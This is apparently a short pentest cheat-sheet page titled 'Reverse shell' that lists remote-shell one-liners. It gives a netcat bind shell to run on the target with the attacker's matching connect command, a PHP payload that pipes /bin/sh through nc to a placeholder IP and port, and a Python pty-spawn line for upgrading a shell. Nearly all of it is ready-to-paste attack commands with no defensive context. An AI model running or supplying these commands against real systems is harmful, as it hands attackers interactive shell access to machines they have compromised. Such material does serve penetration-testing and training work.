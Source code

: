 ```yaml
---
id: reverse_shell
title: ↔ Reverse shell
---
```


# Reverse shell

## nc

Inside the target machine

```bash
nc -lnvvp <port> -e /bin/sh
```

To connect from the attacker machine:

```bash
nc <host> <port>
```

## PHP

```php
<?php system ("rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc <IP> <PORT> >/tmp/f"); ?>
```

## Python

```py
python3 -c 'import pty; pty.spawn("/bin/sh")'
```
